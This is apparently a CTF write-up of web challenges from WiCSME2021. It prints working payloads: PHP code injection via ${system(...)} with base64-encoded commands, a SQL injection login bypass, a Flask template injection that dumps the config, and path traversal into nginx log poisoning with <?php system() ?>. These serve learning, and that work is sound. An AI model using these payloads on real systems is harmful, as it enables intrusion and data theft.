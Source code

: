 # WiCSME2021 CTF

# web challenges:

## 1- SimPlay
![Screenshot at 2021-11-25 19-26-09](https://user-images.githubusercontent.com/52857059/143482771-46d1f5ad-c4c8-4667-882a-6d2c23525010.png)

After clicking the Try Again button :

![Screenshot at 2021-11-25 19-32-26](https://user-images.githubusercontent.com/52857059/143484789-d5764601-d715-4dda-87f6-225147275112.png)

I try php code injection ${system('ls')}

![Screenshot at 2021-11-25 19-35-36](https://user-images.githubusercontent.com/52857059/143484816-0131587c-3d6c-43f1-b947-5afac58b96ae.png)

It works But I can't find flag file.
let's try another payload with base64_decode function --> ${system(base64_decode(bHMgLi4v))}

![Screenshot at 2021-11-25 19-39-34](https://user-images.githubusercontent.com/52857059/143484886-c4cdb4ad-025d-46f2-85c7-57850b62bd3d.png)

I got flag name :")
next step , let's read flag file --> ${system(base64_decode(Y2F0IC4uL2ZsYWcq))}

![Screenshot at 2021-11-25 19-47-54](https://user-images.githubusercontent.com/52857059/143484917-bf996a6b-275b-4965-9982-0742345a348d.png)


## 2- Potent Quotes
![Screenshot at 2021-11-25 19-54-12](https://user-images.githubusercontent.com/52857059/143547317-5ee748d1-aab4-4f33-bc0e-8816ecadb6e9.png)

After downloading the files' challenge locally , I found query of input 

![Screenshot at 2021-11-26 09-53-45](https://user-images.githubusercontent.com/52857059/143547089-f06f8c4b-4749-4c33-9f31-9dc5a7249e64.png)

Let's try injecting pass input with ``` 1' or '1'='1 ```

![Screenshot at 2021-11-26 10-01-17](https://user-images.githubusercontent.com/52857059/143547148-b89b03d8-01be-44c9-97ef-8640261a8e0e.png)


## 3- INCEPTION(easy)
![Screenshot at 2021-11-26 10-04-55](https://user-images.githubusercontent.com/52857059/143547836-fcee23ee-9792-461d-90ca-799a392a5460.png)

After downloading the files' challenge locally ,I noticed The application use template Engine .
I used template injection in python because the application was made with flask.

![Screenshot at 2021-11-26 10-07-03](https://user-images.githubusercontent.com/52857059/143549346-bbbcb5dd-9b70-4215-9bec-90de69252b20.png)

I noticed also The flag in the config so the payload is ```{{config.items()}}```

![Screenshot at 2021-11-26 10-19-37](https://user-images.githubusercontent.com/52857059/143549374-639f8833-23a9-4695-9c45-2b810932b34d.png)

HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}

## 4- IMF - Landing
![Screenshot at 2021-11-26 10-22-39](https://user-images.githubusercontent.com/52857059/143550824-7b43ab7e-56f6-47b9-aade-9470983c48de.png)

let's try path traversal 

![Screenshot at 2021-11-26 10-23-12](https://user-images.githubusercontent.com/52857059/143551120-363c8368-05e9-407f-8147-b3cab69b1f20.png)
It works.

I noticed the server is nginx so we could read the access.log ```/var/log/nginx/access.log```

![Screenshot at 2021-11-26 10-25-59](https://user-images.githubusercontent.com/52857059/143551202-38954555-d1cd-452b-818e-2db06bcc1bd4.png)

I notices the user-agent was printed in access.log

![Screenshot at 2021-11-26 10-38-17](https://user-images.githubusercontent.com/52857059/143551771-872a1ce2-bc54-40b3-bff4-9a29529861a5.png)

let's inject the user-agent with php code injection ```<?php system('ls') ?> ```

![Screenshot at 2021-11-26 10-28-55](https://user-images.githubusercontent.com/52857059/143551895-9deb0453-0197-4ae3-9255-de6f8cca9fdf.png)

![Screenshot at 2021-11-26 10-29-32](https://user-images.githubusercontent.com/52857059/143551935-8d010c3e-b79f-42bf-951b-a7a2ea93acda.png)

Let's try ```<?php system('ls ../') ?>```

![Screenshot at 2021-11-26 10-30-40](https://user-images.githubusercontent.com/52857059/143552105-99f4c676-95a2-4fd3-9c4e-c3210e4d8a64.png)

![Screenshot at 2021-11-26 10-30-54](https://user-images.githubusercontent.com/52857059/143552132-eaf7f512-6dec-4121-a88f-d662d597ddeb.png)

With ```<?php system('cat ../flag*') ?>``` we can read the flag

![Screenshot at 2021-11-26 10-31-40](https://user-images.githubusercontent.com/52857059/143552300-c8c42619-690a-4342-a5a0-46181cd2d3fb.png)

![Screenshot at 2021-11-26 10-31-54](https://user-images.githubusercontent.com/52857059/143552310-8137f420-2872-48f9-8254-cdfddc5e1322.png)

## 5- IMF-searching



